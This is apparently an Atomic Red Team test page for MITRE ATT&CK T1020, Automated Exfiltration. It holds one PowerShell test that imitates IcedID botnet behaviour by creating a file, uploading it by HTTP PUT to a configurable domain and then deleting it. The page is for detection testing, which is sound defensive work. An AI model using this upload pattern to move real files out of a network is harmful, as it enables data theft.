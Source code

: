 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file | Exfiltration File | String | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
